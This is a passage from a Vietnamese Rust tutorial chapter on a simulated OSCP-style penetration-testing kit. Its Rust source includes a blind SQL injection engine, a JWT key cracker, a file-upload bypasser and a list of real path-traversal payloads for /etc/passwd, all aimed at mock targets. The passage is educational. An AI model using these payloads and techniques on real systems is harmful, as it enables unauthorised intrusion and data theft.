| `impact_demonstrated` | Tác động đã được quan sát hay chưa |
| `proof_hash` | Vân tay SHA-256 của cặp (payload, response) |

Điều kiện xác minh:

$$
\mathrm{proof.verify()} = \mathrm{impact} \land \big| \mathrm{payload} \big| > 0 \land \big| \mathrm{response} \big| > 0
$$

Vân tay bằng chứng được tính như sau:

$$
\mathrm{proof\_hash} = \mathrm{SHA256}\big( \mathrm{payload} \,\|\, \texttt{"\textbackslash n"} \,\|\, \mathrm{response} \big)
$$

Vì `ProofByExploitation::new()` tự tính vân tay và tự đặt cờ `verified`, **không thể tạo ra một
bằng chứng “xác minh” mà không có payload, phản hồi và tác động thật**.

### 3.9. `StaticVulnScanner` — Quét lỗ hổng zero-shot trên mã nguồn

Bộ quét tĩnh áp dụng **14 luật heuristic** theo kiểu khớp mẫu trên từng dòng mã:

| # | Luật | CWE | Mức độ | Mẫu |
|---|---|---|---|---|
| 1 | `unsafe-block` | CWE-119 | Cao | `unsafe {` |
| 2 | `unchecked-cast` | CWE-190 | Trung bình | `as usize` |
| 3 | `truncating-cast` | CWE-190 | Trung bình | `as u8` |
| 4 | `unwrap-in-library` | CWE-248 | Thấp | `.unwrap()` |
| 5 | `format-injection` | CWE-134 | Trung bình | `format!(` |
| 6 | `get-unchecked` | CWE-125 | Cao | `get_unchecked` |
| 7 | `transmute` | CWE-704 | Cao | `transmute` |
| 8 | `set-len` | CWE-119 | Cao | `set_len` |
| 9 | `from-raw-parts` | CWE-125 | Cao | `from_raw_parts` |
| 10 | `command-injection` | CWE-78 | **Nghiêm trọng** | `Command::new` |
| 11 | `sql-concatenation` | CWE-89 | Cao | `"SELECT ` |
| 12 | `sql-format` | CWE-89 | Cao | `format!("SELECT` |
| 13 | `path-join` | CWE-22 | Cao | `.join(` |
| 14 | `mem-forget` | CWE-401 | Trung bình | `mem::forget` |

Khi quét mẫu mã cố ý chứa lỗi `VULNERABLE_SAMPLE_CODE`, bộ quét bắt được **14/14 loại luật**,
tức mọi luật trong danh mục đều khớp ít nhất một lần.

### 3.10. `VulnDatabase` — Danh mục 64 lỗ hổng OSCP

Mỗi mục gồm: `cwe`, `name`, `cvss`, `severity` (suy ra tự động từ CVSS theo ngưỡng
$9.0 / 7.0 / 4.0$), `remediation` và `exploit_template` (khung khai thác mẫu).

Quy tắc quy đổi CVSS → mức độ:

$$
\mathrm{severity}(s) = \begin{cases}
\text{Nghiêm trọng} & s \ge 9.0\\
\text{Cao} & 7.0 \le s < 9.0\\
\text{Trung bình} & 4.0 \le s < 7.0\\
\text{Thấp} & 0 < s < 4.0\\
\text{Thông tin} & s = 0
\end{cases}
$$

### 3.11. `ExploitChainRunner` — Điều phối 6 giai đoạn



Mỗi giai đoạn trả về một danh sách `ChainStep`:

```rust
pub struct ChainStep {
    pub phase: Phase,
    pub target: String,
    pub action: String,
    pub success: bool,
    pub evidence: String,
    pub duration_ms: u64,
}
```

Trường `evidence` là **bằng chứng thô** của bước đó (ví dụ “278 lần thăm dò, trích được
`admin` từ bảng `users`”), được in ra trực tiếp trong bản chạy mẫu.

Toàn bộ chuỗi chỉ được coi là thành công khi:

$$
\mathrm{success} = \Big(\forall s \in \text{steps},\; s.\mathrm{success}\Big) \land \big(|\text{findings}| > 0\big) \land \Big(\forall p \in \text{proofs},\; p.\mathrm{verify}()\Big)
$$

### 3.12. `PentestReportGenerator` — Báo cáo Markdown chuẩn OSCP

Cấu trúc báo cáo gồm 5 mục bắt buộc:

```text
# Executive Summary      — ai, ở đâu, bao nhiêu phát hiện, bao nhiêu máy chủ bị chiếm quyền
# Methodology            — 6 giai đoạn, tổng thời gian, số bước
# Findings               — bảng tổng hợp + từng phát hiện chi tiết
    ## VULN-001 — <Tiêu đề>
        - Mức độ / CVSS / CWE / Đích
        ### Proof of Exploitation   (payload + response + vân tay SHA-256)
        ### Remediation             (khuyến nghị khắc phục)
# Conclusion             — ưu tiên xử lý, số phát hiện, mức độ cao nhất
```

Bảng “Findings” là hợp đồng dữ liệu giữa kỹ thuật và kinh doanh:

```text
| ID | Tiêu đề | Mức độ | CVSS | CWE | Đích | PoC |
|---|---|---|---|---|---|---|
| VULN-001 | SQL Injection tại tham số id | Nghiêm trọng | 9.8 | CWE-89 | `10.10.10.5:80` | Đã xác minh |
```

### 3.13. `RedTeamExploitKit` — Điểm hội tụ

```text
         ┌──────────────────────────────────────────────┐
         │             RedTeamExploitKit                │
         ├──────────────────────────────────────────────┤
         │  network   : MockNetwork (topo 5 máy)       │
         │  runner    : ExploitChainRunner (6 giai đoạn)│
         │  scanner   : StaticVulnScanner (14 luật)    │
         │  db        : VulnDatabase (64 CWE)           │
         │  reporter  : PentestReportGenerator (OSCP)  │
         └──────────────────────────────────────────────┘
                            │
                            ▼
              run_full_assessment() → RedTeamAssessment
              { result, static_findings, report_markdown, false_positive_rate }
```

Chỉ số chất lượng được tính như sau:

$$
\mathrm{false\_positive\_rate} = \frac{\big|\{ v \in \text{findings} \mid \neg \mathrm{proof}(v).\mathrm{verify}() \}\big|}{\max(1, |\text{findings}|)}
$$

Vì cổng `register()` đã loại bỏ mọi phát hiện không có PoC hợp lệ, tử số trên luôn bằng $0$ —
và `test_54` kiểm chứng đúng điều đó ở cấp độ toàn hệ thống.


### 3.14. Bộ kiểm thử 54 bài — “hợp đồng” của crate

Mỗi bài test trong crate kiểm chứng **đúng một bất biến**. Cách đặt tên thống nhất
`test_NN_mô_tả` giúp đọc như một bảng kiểm định (verification table):

```text
test_01_splitmix64_is_deterministic  →  test_18_blind_sqli_extracts_table_names
test_02_sha256_matches_fips_vector  →  test_19_blind_sqli_extracts_column_data
test_03_md5_matches_rfc1321_vectors  →  test_20_blind_sqli_records_injection_payloads
...
test_52_every_chain_finding_has_a_verified_proof
test_53_report_contains_all_required_sections
test_54_full_assessment_has_zero_false_positive_rate
```

Bốn lệnh CI bắt buộc cho crate này:

```bash
cd /Users/mike/Downloads/learn-rs
cargo fmt --manifest-path code/Cargo.toml -p ch104
RUSTFLAGS="-D warnings -F non-ascii-idents" cargo clippy --manifest-path code/Cargo.toml -p ch104 --all-targets -- -D warnings
RUSTFLAGS="-D warnings -F non-ascii-idents" cargo test --manifest-path code/Cargo.toml -p ch104
cargo run --manifest-path code/Cargo.toml -p ch104
```

Ba điều kiện bắt buộc mà crate này đáp ứng:

| Điều kiện | Ý nghĩa |
|---|---|
| `[dependencies]` rỗng tuyệt đối | Không crate ngoài nào — mọi thuật toán đều tự cài |
| `RUSTFLAGS="-D warnings"` | Cảnh báo clippy/rustc đều trở thành lỗi |
| `-F non-ascii-idents` | Cấm định danh Unicode trong mã (giữ mã nhất quán ASCII) |

### 3.15. Bản đồ API — “hợp đồng” giữa Chương 98–103 và Chương 104

| Cấu trúc | Nguồn gốc | Vai trò trong chuỗi |
|---|---|---|
| `MockNetwork`, `MockHost`, `MockService`, `MockShell` | Chương 99/102 | Môi trường mô phỏng cho toàn bộ khai thác |
| `ReconEngine`, `ServiceFingerprinter`, `NetworkMapper` | Chương 99 | Giai đoạn 1 — trinh sát |
| `BlindSqliEngine`, `LfiScanner`, `FileUploadBypasser`, `JwtCracker` | Chương 100 | Giai đoạn 2a — khai thác web |
| `CyclicPatternGenerator`, `ShellcodeEncoder`, `RopChainBuilder`, `VulnerableBuffer` | Chương 98 | Giai đoạn 2b — khai thác nhị phân |
| `nt_hash`, `md5`, `HashCracker`, `WordlistMutator` | Chương 101 | Giai đoạn 3 — tấn công xác thực |
| `MockFilesystem`, `MockRegistry`, `LinuxPrivEscChecker`, `Finding`, `GroundTruthVerifier` | Chương 102 | Giai đoạn 4 — leo thang đặc quyền |
| `SshTunnelSimulator`, `SocksRelayChain`, `TunnelType` | Chương 103 | Giai đoạn 5 — xoay chiều |
| `ProofByExploitation`, `StaticVulnScanner`, `VulnDatabase`, `ExploitChainRunner`, `PentestReportGenerator` | Chương 104 (mới) | Giai đoạn 6 — tổng hợp & báo cáo |

---
---
## 4. Mã nguồn minh họa thực chiến

Toàn bộ mã nguồn dưới đây được trích **nguyên văn** từ `code/ch104/src/main.rs` — cùng một mã
nguồn chạy được với 54 bài test và 4 lệnh CI xanh.

### 4.1. `ProofByExploitation` — Xương sống của hệ thống

```rust
/// Bằng chứng khai thác thực tế đi kèm một lỗ hổng.
#[derive(Debug, Clone, PartialEq)]
pub struct ExploitProof {
    /// Payload đã gửi tới mục tiêu.
    pub payload_used: String,
    /// Phản hồi nhận được từ mục tiêu.
    pub response_received: String,
    /// Cờ cho biết tác động đã được chứng minh hay chưa.
    pub impact_demonstrated: bool,
    /// Vân tay SHA-256 của cặp payload/phản hồi.
    pub proof_hash: String,
}

/// Bọc chứng minh khai thác kèm cờ xác minh — xương sống của cả hệ thống.
///
/// Bất biến cốt lõi: một phát hiện chỉ được giữ lại khi **Proof of Exploitation** chạy được
/// và thực sự tạo ra tác động. Nhờ vậy tỉ lệ báo động giả (`false_positive_rate`) luôn bằng 0.
#[derive(Debug, Clone, PartialEq)]
pub struct ProofByExploitation {
    /// Bằng chứng khai thác thô.
    pub proof: ExploitProof,
    /// Kết quả xác minh.
    pub verified: bool,
}

impl ProofByExploitation {
    /// Khởi tạo bằng chứng và tự tính vân tay SHA-256.
    pub fn new(payload_used: &str, response_received: &str, impact_demonstrated: bool) -> Self {
        let proof_hash = proof_fingerprint(payload_used, response_received);
        Self {
            proof: ExploitProof {
                payload_used: payload_used.to_string(),
                response_received: response_received.to_string(),
                impact_demonstrated,
                proof_hash,
            },
            verified: impact_demonstrated
                && !payload_used.trim().is_empty()
                && !response_received.trim().is_empty(),
        }
    }

    /// Kiểm tra lại tính hợp lệ của bằng chứng.
    pub fn verify(&self) -> bool {
        self.verified
            && self.proof.impact_demonstrated
            && !self.proof.payload_used.trim().is_empty()
            && !self.proof.response_received.trim().is_empty()
    }

    /// Trả về vân tay SHA-256 của bằng chứng.
    pub fn proof_hash(&self) -> String {
        self.proof.proof_hash.clone()
    }

    /// Mô tả ngắn gọn bằng chứng để đưa vào báo cáo.
    pub fn summary(&self) -> String {
        format!(
            "payload {} byte | phản hồi {} byte | tác động: {}",
            self.proof.payload_used.len(),
            self.proof.response_received.len(),
            if self.proof.impact_demonstrated { "đã chứng minh" } else { "chưa chứng minh" }
        )
    }
}

/// Tính vân tay SHA-256 của cặp payload/phản hồi.
pub fn proof_fingerprint(payload_used: &str, response_received: &str) -> String {
    let mut buf = Vec::new();
    buf.extend_from_slice(payload_used.as_bytes());
    buf.push(b'\n');
    buf.extend_from_slice(response_received.as_bytes());
    to_hex(&sha256(&buf))
}
```

Điểm cần chú ý: `new()` **tự tính** vân tay và **tự quyết định** cờ `verified`. Không có
đường nào để dựng một PoC “đã xác minh” mà không có payload, phản hồi và tác động thật.

### 4.2. `MockNetwork` — Duyệt theo chiều rộng trên đồ thị định tuyến

```rust
    /// Danh sách các IP có thể tiếp cận được từ một máy (bao gồm đường đi gián tiếp).
    pub fn reachable_from(&self, from: Ipv4Addr) -> Vec<Ipv4Addr> {
        let mut seen: Vec<Ipv4Addr> = Vec::new();
        let mut frontier = vec![from];
        while let Some(current) = frontier.pop() {
            for (src, dst) in &self.topology {
                if *src == current && !seen.contains(dst) && *dst != from {
                    seen.push(*dst);
                    frontier.push(*dst);
                }
            }
        }
        seen
    }

    /// Số máy chủ đã bị chiếm quyền.
```

### 4.3. `ReconEngine` — Quét cổng và nhận dạng dịch vụ

```rust
    /// Quét một máy chủ ảo và trả về thông tin thu thập được.
    pub fn scan_host(&mut self, host: &MockHost) -> HostInfo {
        let mut open_ports = Vec::new();
        let mut services = HashMap::new();
        for service in &host.services {
            open_ports.push(service.port);
            let (name, version) = self
                .fingerprinter
                .fingerprint(service.port, &service.banner)
                .unwrap_or_else(|| (service.name.clone(), service.version.clone()));
            let label = if version.is_empty() { name } else { format!("{name} {version}") };
            services.insert(service.port, label);
        }
        open_ports.sort_unstable();

        let ttl = if host.os.to_ascii_lowercase().contains("windows") { 128 } else { 64 };
        let banner = host.services.first().map(|s| s.banner.clone()).unwrap_or_default();
        let os = self.detect_os(&banner, ttl);

        let info =
            HostInfo { ip: host.ip, hostname: host.hostname.clone(), os, open_ports, services };
        self.mapper.hosts.insert(info.ip, info.clone());
        info
    }

    /// Quét toàn bộ mạng và trả về bản đồ.
    pub fn map_network(&mut self, net: &MockNetwork) -> NetworkMapper {
        for host in &net.hosts {
            self.scan_host(host);
        }
        self.mapper.clone()
    }

    /// Đoán hệ điều hành dựa trên banner và giá trị TTL của gói tin.
    pub fn detect_os(&self, banner: &[u8], ttl: u8) -> String {
        let text = String::from_utf8_lossy(banner).to_ascii_lowercase();
        if text.contains("windows") || ttl == 128 {
            "Windows".to_string()
        } else if text.contains("linux") || ttl == 64 {
            "Linux".to_string()
        } else if ttl == 255 {
            "NetworkDevice".to_string()
        } else {
            "Unknown".to_string()
        }
    }
```

### 4.4. `BlindSqliEngine` & đích SQL in-memory

Đích SQL mô phỏng phải hiểu đúng ba dạng truy vấn: truy vấn `information_schema`, phép thăm dò
boolean dạng `SUBSTRING(...) = '...'`, và phép thăm dò boolean tổng quát dạng `' AND (...) AND '1'='1'`.

```rust
impl SqlTarget for InMemorySqlTarget {
    fn query(&self, sql: &str) -> SqlResponse {
        let lower = sql.to_ascii_lowercase();

        // Câu hỏi trực tiếp về danh mục `information_schema`.
        if lower.contains("information_schema.tables") {
            if lower.contains("count(") {
                return SqlResponse {
                    rows: vec![vec![self.db.tables.len().to_string()]],
                    error: false,
                    delay_ms: 0,
                    length: 1,
                };
            }
            let rows: Vec<Vec<String>> =
                self.db.tables.iter().map(|t| vec![t.name.clone()]).collect();
            let length = rows.len();
            return SqlResponse { rows, error: false, delay_ms: 0, length };
        }
        if lower.contains("information_schema.columns") {
            let table = extract_quoted_value(&lower, "table_name='");
            let columns = table
                .and_then(|t| self.db.table(&t))
                .map(|t| t.columns.iter().map(|c| vec![c.clone()]).collect::<Vec<_>>())
                .unwrap_or_default();
            let length = columns.len();
            return SqlResponse { rows: columns, error: false, delay_ms: 0, length };
        }

        // Dạng thăm dò boolean: SELECT SUBSTRING(<expr>,<pos>,1) = '<ký tự>'
        if let Some((expr, pos, ch)) = parse_boolean_probe(sql) {
            let value = self.resolve_value(&expr);
            let matched = value
                .and_then(|v| v.chars().nth(pos.saturating_sub(1)))
                .map(|c| c == ch)
                .unwrap_or(false);
            return SqlResponse {
                rows: if matched { vec![vec!["1".to_string()]] } else { Vec::new() },
                error: false,
                delay_ms: 0,
                length: usize::from(matched),
            };
        }

        // Dạng thăm dò boolean tổng quát: `' AND (<điều kiện>) AND '1'='1'`
        if let Some(condition) = extract_condition(sql) {
            let matched = evaluate_condition(&condition);
            return SqlResponse {
                rows: if matched { vec![vec!["1".to_string()]] } else { Vec::new() },
                error: false,
                delay_ms: 0,
                length: usize::from(matched),
            };
        }

        SqlResponse { rows: Vec::new(), error: true, delay_ms: 0, length: 0 }
    }
}
```

Bộ trích xuất mù bên trên sử dụng đích này:

```rust
/// Động cơ khai thác SQL Injection mù.
pub struct BlindSqliEngine<'a> {
    /// Đích SQL.
    target: &'a dyn SqlTarget,
    /// Nhật ký các payload đã thử.
    pub injections: Vec<String>,
}

impl<'a> BlindSqliEngine<'a> {
    /// Tạo động cơ SQLi mù trên một đích SQL.
    pub fn new(target: &'a dyn SqlTarget) -> Self {
        Self { target, injections: Vec::new() }
    }

    /// Dựng payload SQLi mù từ một điều kiện boolean.
    pub fn build_payload(&self, condition: &str) -> String {
        format!("' AND ({condition}) AND '1'='1")
    }

    /// Gửi một phép thăm dò boolean và trả về kết quả.
    pub fn boolean_probe(&mut self, condition: &str) -> bool {
        let payload = self.build_payload(condition);
        self.injections.push(payload.clone());
        let response = self.target.query(&payload);
        !response.error && !response.rows.is_empty()
    }

    /// Trích xuất tên cơ sở dữ liệu hiện tại.
    pub fn extract_database_name(&mut self) -> Option<String> {
        self.blind_extract("DATABASE()", 32)
    }

    /// Trích xuất danh sách bảng.
    pub fn extract_table_names(&mut self) -> Vec<String> {
        let sql = "SELECT table_name FROM information_schema.tables".to_string();
        self.injections.push(sql.clone());
        let response = self.target.query(&sql);
        response.rows.iter().filter_map(|row| row.first().cloned()).collect()
    }

    /// Trích xuất dữ liệu của một cột trong một bảng.
    pub fn extract_column_data(
        &mut self,
        table: &str,
        column: &str,
        max_len: usize,
    ) -> Option<String> {
        let expr = format!("{table}.{column}");
        self.blind_extract(&expr, max_len)
    }

    /// Đo độ dài giá trị của một biểu thức bằng kỹ thuật mù.
    pub fn extract_length(&mut self, table: &str, column: &str) -> Option<usize> {
        let extracted = self.extract_column_data(table, column, 64)?;
        Some(extracted.chars().count())
    }

    /// Vòng lặp trích xuất mù: dò từng vị trí và từng ký tự khả dĩ.
    fn blind_extract(&mut self, expr: &str, max_len: usize) -> Option<String> {
        let mut out = String::new();
        for pos in 1..=max_len {
            let mut found: Option<char> = None;
            for ch in BLIND_CHARSET {
                let sql = format!("SELECT SUBSTRING({expr},{pos},1) = '{ch}'");
                self.injections.push(sql.clone());
                let response = self.target.query(&sql);
                if !response.error && !response.rows.is_empty() {
                    found = Some(ch);
                    break;
                }
            }
            match found {
                Some(ch) => out.push(ch),
                None => break,
            }
        }
        if out.is_empty() { None } else { Some(out) }
    }
}
```

### 4.5. `CyclicPatternGenerator` — Mẫu De Bruijn 186 byte

```rust
/// Bộ sinh mẫu tuần hoàn kiểu De Bruijn để tìm offset ghi đè.
#[derive(Debug, Clone, PartialEq)]
pub struct CyclicPatternGenerator {
    /// Bảng chữ cái của chu kỳ.
    pub alphabet: Vec<u8>,
    /// Độ dài một chu kỳ.
    pub cycle_len: usize,
}

impl CyclicPatternGenerator {
    /// Tạo bộ sinh với chu kỳ 3 ký tự trên 62 ký tự cơ sở (186 byte).
    pub fn new() -> Self {
        const BASE: &[u8; 62] = b"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
        let mut alphabet = Vec::with_capacity(186);
        for (i, ch) in BASE.iter().enumerate() {
            alphabet.push(*ch);
            alphabet.push(ch.to_ascii_lowercase());
            alphabet.push(b'0' + (i % 10) as u8);
        }
        let cycle_len = alphabet.len();
        Self { alphabet, cycle_len }
    }

    /// Sinh `length` byte theo chu kỳ.
    pub fn generate(&self, length: usize) -> Vec<u8> {
        if self.alphabet.is_empty() {
            return Vec::new();
        }
        (0..length).map(|i| self.alphabet[i % self.cycle_len]).collect()
    }

    /// Tìm offset mà chuỗi quan sát bắt đầu trong mẫu tuần hoàn.
    pub fn find_offset(&self, sequence: &[u8]) -> Option<usize> {
        if sequence.is_empty() || self.alphabet.is_empty() {
            return None;
        }
        let buffer = self.generate(sequence.len() + self.cycle_len);
        buffer.windows(sequence.len()).position(|window| window == sequence)
    }

    /// Số byte tối thiểu cần gửi để phủ một offset.
    pub fn pattern_size_for_offset(&self, offset: usize) -> usize {
        offset + 4
    }

    /// Kiểm tra chuỗi con tại offset có khớp với chuỗi quan sát hay không.
    pub fn verify_offset(&self, offset: usize, observed: &[u8]) -> bool {
        let buffer = self.generate(offset + observed.len());
        buffer[offset..offset + observed.len()] == *observed
    }

    /// Nhãn 4 ký tự để đọc offset trong hex dump.
    pub fn chunk_label(&self, offset: usize) -> String {
        let chunk = self.generate(offset + 4);
        String::from_utf8_lossy(&chunk[offset..offset + 4]).to_string()
    }
}
```

### 4.6. `MockShell` — Shell ảo biết nói “không” khi bị bác bỏ

```rust
impl MockShell {
    /// Tạo shell ảo với người dùng mặc định `www`.
    pub fn new() -> Self {
        Self { current_user: "www".to_string(), is_root: false, history: Vec::new() }
    }

    /// Tạo shell ảo với người dùng cụ thể.
    pub fn as_user(user: &str) -> Self {
        Self { current_user: user.to_string(), is_root: false, history: Vec::new() }
    }

    /// Thực thi một lệnh mô phỏng và trả về kết quả thô.
    pub fn execute(&mut self, command: &str) -> String {
        let cmd = command.trim();
        let output = self.dispatch(cmd);
        self.history.push((cmd.to_string(), output.clone()));
        output
    }

    /// Bảng điều khiển lệnh mô phỏng.
    fn dispatch(&self, cmd: &str) -> String {
        let lower = cmd.to_ascii_lowercase();
        if lower == "whoami" {
            return self.current_user.clone();
        }
        if lower == "id" {
            return if self.is_root {
                "uid=0(root) gid=0(root) groups=0(root)".to_string()
            } else {
                "uid=1000(www) gid=1000(www) groups=1000(www)".to_string()
            };
        }
        if lower == "cat /etc/shadow" {
            return "root:$6$mock$hash:19000:0:99999:7:::\nwww:$6$mock$hash:19001:0:99999:7:::\n"
                .to_string();
        }
        if lower == "ls" {
            return "app\nconfig\nflag.txt\nindex.php\n".to_string();
        }
        if lower == "systeminfo" {
            return "Host Name:                 MOCK-DC01\nOS Name:                   Microsoft Windows Server 2019\nOS Version:                10.0.17763\n".to_string();
        }
        if lower == "net user" {
            return "User accounts for \\\nMOCK-DC01\n\nAdministrator    svc_backup    www    Guest\n"
                .to_string();
        }
        if lower == "ipconfig" {
            return "Ethernet adapter Mock0:\n   IPv4 Address. . . : 10.10.30.10\n   Subnet Mask . . . . : 255.255.255.0\n".to_string();
        }
        if lower == "netstat -ano" {
            return "  TCP    0.0.0.0:445        0.0.0.0:0              LISTENING   4\n  TCP    10.10.30.10:139    10.10.10.5:51234      ESTABLISHED 812\n".to_string();
        }
        if lower == "whoami /priv" {
            return "SeTcbPrivilege    SeTcbPrivilege    Enabled\nSeImpersonatePrivilege    SeImpersonatePrivilege    Enabled\n".to_string();
        }
        if lower.starts_with("curl ") {
            return "HTTP/1.1 200 OK\nContent-Type: text/html\nContent-Length: 13\n\nhello world\n"
                .to_string();
        }
        if lower.starts_with("cat ") {
            let path = cmd[4..].trim();
            if path.contains("flag") {
                return "FLAG{ch104_mock_flag_7f3a91}".to_string();
            }
            return format!("cat: {path}: No such file or directory");
        }
        format!("sh: {cmd}: command not found")
    }

    /// Leo thang đặc quyền bằng một kỹ thuật đã biết (mô phỏng).
    ///
    /// Trả `true` khi kỹ thuật được hỗ trợ và shell chuyển sang quyền root.
    pub fn escalate(&mut self, technique: &str) -> bool {
        let supported = [
            "SuidBinary",
            "SudoMisconfig",
            "CronJob",
            "WritableService",
            "Capabilities",
            "TokenImpersonation",
        ];
        if !supported.contains(&technique) {
            return false;
        }
        self.is_root = true;
        self.current_user = "root".to_string();
        self.history.push((format!("escalate({technique})"), "uid=0(root)".to_string()));
        true
    }

    /// Người dùng hiện tại.
    pub fn whoami(&self) -> &str {
        &self.current_user
    }

    /// Shell có đang chạy với quyền root hay không.
    pub fn is_privileged(&self) -> bool {
        self.is_root
    }
}
```

### 4.7. `JwtCracker`, `LfiScanner` và `FileUploadBypasser`

```rust
/// Một token JWT đã mã hoá.
#[derive(Debug, Clone, PartialEq)]
pub struct JwtToken {
    /// Phần header mã hoá Base64URL.
    pub header_b64: String,
    /// Phần payload mã hoá Base64URL.
    pub payload_b64: String,
    /// Phần chữ ký mã hoá Base64URL.
    pub signature_b64: String,
}

impl JwtToken {
    /// Tạo token từ ba chuỗi Base64URL.
    pub fn new(header_b64: &str, payload_b64: &str, signature_b64: &str) -> Self {
        Self {
            header_b64: header_b64.to_string(),
            payload_b64: payload_b64.to_string(),
            signature_b64: signature_b64.to_string(),
        }
    }

    /// Chuỗi đầu vào được ký: `header.payload`.
    pub fn signing_input(&self) -> String {
        format!("{}.{}", self.header_b64, self.payload_b64)
    }

    /// Ký một token HS256 bằng khoá bí mật.
    pub fn sign_with(header_b64: &str, payload_b64: &str, key: &[u8]) -> JwtToken {
        let signing_input = format!("{header_b64}.{payload_b64}");
        let mac = hmac_sha256(key, signing_input.as_bytes());
        JwtToken::new(header_b64, payload_b64, &encode_base64url(&mac))
    }

    /// Token dạng đầy đủ `header.payload.signature`.
    pub fn to_full_string(&self) -> String {
        format!("{}.{}.{}", self.header_b64, self.payload_b64, self.signature_b64)
    }
}

/// Bộ bẻ khoá JWT (tấn công từ điển vào khoá HS256).
#[derive(Debug, Clone, PartialEq)]
pub struct JwtCracker {
    /// Từ điển mật khẩu ứng viên.
    pub wordlist: Vec<String>,
}

impl JwtCracker {
    /// Tạo bộ bẻ khoá với từ điển cho trước.
    pub fn new(wordlist: Vec<String>) -> Self {
        Self { wordlist }
    }

    /// Tìm khoá bí mật khớp với chữ ký của token.
    pub fn crack(&self, token: &JwtToken) -> Option<String> {
        let expected = decode_base64url(&token.signature_b64).ok()?;
        let signing_input = token.signing_input();
        let message = signing_input.as_bytes();
        for candidate in &self.wordlist {
            let mac = hmac_sha256(candidate.as_bytes(), message);
            if mac.as_slice() == expected.as_slice() {
                return Some(candidate.clone());
            }
        }
        None
    }

    /// Số phép thử đã thực hiện.
    pub fn attempts(&self) -> usize {
        self.wordlist.len()
    }

    /// Phát hiện token dùng thuật toán `none`.
    pub fn detect_alg_none(&self, token: &JwtToken) -> bool {
        let Ok(header) = decode_base64url(&token.header_b64) else {
            return false;
        };
        let text = String::from_utf8_lossy(&header).to_ascii_lowercase();
        text.contains("\"alg\":\"none\"") || text.contains("\"alg\": \"none\"")
    }
}
```

```rust
/// Bộ quét Local File Inclusion.
#[derive(Debug, Clone, PartialEq)]
pub struct LfiScanner {
    /// Danh sách payload thử nghiệm.
    pub payloads: Vec<String>,
}

impl LfiScanner {
    /// Tạo bộ quét với bộ payload đường đi tiêu chuẩn.
    pub fn new() -> Self {
        Self {
            payloads: vec![
                "../../../../etc/passwd".to_string(),
                "....//....//etc/passwd".to_string(),
                "..%2f..%2f..%2fetc%2fpasswd".to_string(),
                "%2e%2e%2f%2e%2e%2fetc/passwd".to_string(),
                "..\\..\\..\\windows\\win.ini".to_string(),
                "php://filter/convert.base64-encode/resource=index.php".to_string(),
                "....//....//....//....//etc/passwd".to_string(),
                "/etc/passwd".to_string(),
            ],
        }
    }

    /// Sinh payload đi sâu `depth` cấp thư mục.
    pub fn generate_payloads(&self, depth: usize) -> Vec<String> {
        let prefix = "../".repeat(depth);
        vec![
            format!("{prefix}etc/passwd"),
            format!("{prefix}etc/shadow"),
            format!("..{prefix}etc/passwd"),
        ]
    }

    /// Quét tập phản hồi và trả về các kết quả khớp.
    ///
    /// Các payload được duyệt theo thứ tự **từ điển tăng dần** để kết quả luôn tất định:
    /// `HashMap` không bảo đảm thứ tự lặp, còn báo cáo kiểm thử thì phải tái lập được.
    pub fn scan(&self, responses: &HashMap<String, String>) -> Vec<LfiFinding> {
        let mut payloads: Vec<&String> = responses.keys().collect();
        payloads.sort();
        let mut out = Vec::new();
        for payload in payloads {
            let body = &responses[payload];
            let matched = body.contains("root:x:") || body.contains("[extensions]");
            let leaked_marker = if body.contains("root:x:0:0") {
                Some("root:x:0:0".to_string())
            } else if body.contains("[extensions]") {
                Some("[extensions]".to_string())
            } else {
                None
            };
            out.push(LfiFinding { payload: payload.clone(), matched, leaked_marker });
        }
        out
    }
}

impl Default for LfiScanner {
    fn default() -> Self {
        Self::new()
    }
}

/// Kết quả thử vượt kiểm duyệt tải lên tệp.
#[derive(Debug, Clone, PartialEq)]
pub struct UploadBypassResult {
    /// Tên tệp sau khi xử lý.
    pub filename: String,
    /// Phần mở rộng cuối cùng.
    pub extension: String,
    /// Kiểu MIME khai báo.
    pub content_type: String,
    /// Magic bytes nhận diện được trong nội dung.
    pub magic_bytes: Vec<u8>,
    /// Có vượt qua được bộ lọc hay không.
    pub bypassed: bool,
    /// Giải thích kết quả.
    pub reason: String,
}

/// Bộ vượt kiểm duyệt tải lên tệp.
#[derive(Debug, Clone, PartialEq)]
pub struct FileUploadBypasser {
    /// Danh sách phần mở rộng bị chặn.
    pub blocked_extensions: Vec<String>,
}

impl FileUploadBypasser {
    /// Tạo bộ vượt kiểm duyệt với danh sách chặn cho trước.
    pub fn new(blocked_extensions: Vec<String>) -> Self {
        Self { blocked_extensions }
    }

    /// Danh sách phần mở rộng bị chặn mặc định.
    pub fn default_blocklist() -> Vec<String> {
        ["php", "phtml", "php3", "php4", "php5", "pht", "exe", "sh"]
            .iter()
            .map(|s| s.to_string())
            .collect()
    }

    /// Magic bytes nhận diện mã PHP.
    pub fn php_magic_bytes() -> Vec<u8> {
        b"<?php".to_vec()
    }

    /// Tạo tên tệp có phần mở rộng kép, ví dụ `shell.php.jpg`.
    pub fn double_extension(filename: &str) -> String {
        let stem = filename.split('.').next().unwrap_or("upload");
        format!("{stem}.php.jpg")
    }

    /// Thử vượt bộ lọc với một tệp giả định.
    pub fn try_bypass(
        &self,
        filename: &str,
        content_type: &str,
        content: &[u8],
    ) -> UploadBypassResult {
        let extension = filename.rsplit('.').next().unwrap_or("").to_ascii_lowercase();
        let magic_bytes =
            if content.starts_with(b"<?php") { Self::php_magic_bytes() } else { Vec::new() };
        let blocked = self.blocked_extensions.iter().any(|e| e == &extension);
        let double = filename
            .split('.')
            .any(|part| self.blocked_extensions.iter().any(|e| e.eq_ignore_ascii_case(part)));

        let (bypassed, reason) = if blocked {
            (
                false,
                format!(
                    "Phần mở rộng `.{extension}` nằm trong danh sách chặn — tải lên bị từ chối."
                ),
            )
        } else if double {
            (
                true,
                format!(
                    "Phần mở rộng cuối `.{extension}` được phép nhưng tên tệp chứa phần mở rộng bị chặn ở giữa — server có thể thực thi theo phần mở rộng trước."
                ),
            )
        } else if !magic_bytes.is_empty() {
            (
                true,
                "Nội dung chứa magic bytes PHP dù đuôi tệp được phép — nguy cơ thực thi mã từ xa."
                    .to_string(),
            )
        } else {
            (false, "Tệp không vượt qua được bộ lọc.".to_string())
        };

        UploadBypassResult {
            filename: filename.to_string(),
            extension,
            content_type: content_type.to_string(),
            magic_bytes,
            bypassed,
            reason,
        }
    }
}
```

### 4.8. `MockFilesystem` và `LinuxPrivEscChecker`

```rust
impl MockFilesystem {
    /// Tạo hệ thống tệp rỗng.
    pub fn new() -> Self {
